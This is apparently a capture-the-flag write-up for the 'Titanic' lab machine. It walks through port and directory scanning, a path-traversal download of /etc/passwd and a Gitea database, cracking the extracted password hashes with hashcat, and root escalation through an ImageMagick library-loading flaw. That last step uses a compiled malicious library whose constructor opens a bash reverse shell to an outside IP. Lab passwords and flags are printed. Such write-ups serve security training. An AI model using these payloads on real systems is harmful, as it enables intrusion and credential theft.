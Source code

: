 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.55
```
![[2025-03-06_16-08.png]]
Let's go to the site
![[2025-03-06_16-13.png]]
Let's check for directories
```bash
gobuster dir --wordlist=/usr/share/wordlists/rockyou.txt -u http://titanic.htb/
```
![[2025-03-06_16-05.png]]
Directory `/download` was found. Let's go to it
```URL
http://http://titanic.htb/download
```
![[2025-03-06_16-15.png]]
Error `{"error":"Ticket parameter is required"}`. This means that a ticket must be passed in the `URL`. Let's try to pass ticket `123`
```URL
http://titanic.htb/download?ticket=123
```
![[2025-03-06_16-16.png]]
Ticket not found. Most likely, the ticket is a file that the site allows you to download. Let's try to exploit `path traversal`. Download file `/etc/passwd`
```URL
//http://titanic.htb/download?ticket=../../../../etc/passwd
```
![[2025-03-06_16-18.png]]
![[2025-03-06_16-19.png]]
The vulnerability worked. Here at least the users `developer` and `root` are interesting
Let's try to get into the home directory of `developer` and find the flag `user.txt`
``URL
http://titanic.htb/download?ticket=../../../../home/developer/user.txt
```
![[2025-03-06_16-24.png]]
The first flag is
```flag
00ac3cda319b165b9a529d42af6c17f9
```
If there is `developer`, then most likely there is a subdomain `dev`. Let's check it out
![[2025-03-06_17-12.png]]
Let's try adding this subdomain to `/etc/hosts`
![[2025-03-06_17-14.png]]
![[2025-03-06_17-11.png]]
Now we have access to the `dev` subdomain.
Press the `Explore` button.

![image](images/20250307191004.png)

There are 2 repositories here: `developer/docker-config` and `developer/flask-app`. Let's go to the first

![image](images/20250307191039.png)

The `mysql` folder is interesting here. It contains `docker-compose.yml`, which contains the address of the database and its password

![image](images/20250307191149.png)

```Adress
127.0.0.1:3306:3306
```
```Password
MySQLP@$$w0rd!
```
Now let's open the second repository

![image](images/20250307191654.png)

We see that `gitea` runs in a `Docker` container, which saves everything to the `/home/developer/gitea/data` directory.
`gitea` most likely has its own database. Let's try to find it in the directory `/home/developer/gitea/data/gitea/gitea.db`
```URL
http://titanic.htb/download?ticket=../../..//home/developer/gitea/data/gitea/gitea.db
```
The file `gitea.db` has been downloaded. See what's in it
```bash
sqlite3 gitea.db
```

![image](images/20250307211038.png)

There is a table `user`. Let's see what this table consists of
```sqlite
.schema user
```

![image](images/20250307211336.png)

The columns `lower_name`, `passwd` and `salt` are interesting here. Let's get them out
```sqlite
select lower_name, passwd, salt from user;
```

![image](images/20250307211556.png)

```hash
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960 d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28f c9b
```
```hash
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```
`hashcat` cannot break such a hard hash directly. So let's convert these hashes to `SHA-256`. I'll use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)
Developer:
```bash
python3 gitea2hashcat.py "e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8e fc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34"
```
```bash
echo 'sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=' > sha_developer.txt
```
```bash
hashcat -m 10900 sha_developer.txt /usr/share/wordlists/rockyou.txt
```

![image](images/20250307214100.png)

```Password
25282528
```
Administrator:
```bash
python3 gitea2hashcat.py "cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d 2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b"
```
```bash
echo 'sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=' > sha_administrator.txt
```
```bash
hashcat -m 10900 sha_administrator.txt /usr/share/wordlists/rockyou.txt
```
`hashcat` couldn't break the hash of `administrator`, but it did break `developer`. Let's connect to it via `SSH`

![image](images/20250307214347.png)

Let's do some tunneling
```bash
ssh -L 3000:localhost:3000 developer@titanic.htb
```
After that, `Gitea` is available on our machine at `http://localhost:3000`.
After digging around in the file system, I found an `identify_images.sh` bash script in `/opt/scripts` that works with `ImageMagick 7.1.1-35` and runs as `root`. Most likely, there is an exploit for it.

![image](images/20250308160908.png)

I found information about this [exploit](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8). We see that `ImageMagick 7.1.1-35` is vulnerable due to incorrectly configured `MAGICK_CONFIGURE_PATH` and `LD_LIBRARY_PATH` environment variables and due to paths with double colons `::`, which forces `ImageMagick` to look for files in the **current working directory**.
First, compile the malicious library with built-in `reverse shell`
```bash
gcc -x c -shared -fPIC -o libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
system("bash -c 'bash -i >& /dev/tcp/10.10.14.130/4444 0>&1'");
exit(0);
}
EOF
```
where `__attribute__((constructor))` — the `init()` function will be executed **automatically when the library is loaded**; - `system()` — runs the command for the `reverse shell`.

![image](images/20250308161950.png)

Now run `nc` listening on port `4444`
```bash
sudo nc -lvnp 4444
```
Now run the script `identify_images.sh` and go to the terminal with `nc`

![image](images/20250308162105.png)


![image](images/20250308162138.png)

```flag
8458fb76e993d949c7e1f3255c2fcf70
```
## How it works
The script `identify_images.sh` runs `magick identify` in directory `/opt/app/static/assets/images`.
Due to vulnerability:
- `LD_LIBRARY_PATH` contains **empty path** (current directory).
- ImageMagick searches for libraries (e.g. `libxcb.so.1`) **in the current directory**.
When `magick identify` tries to load the `libxcb.so.1` library, it finds a **malicious file** instead of a system one.

The `init()` function is executed with **the privileges of the user who launched the script** (`root`).
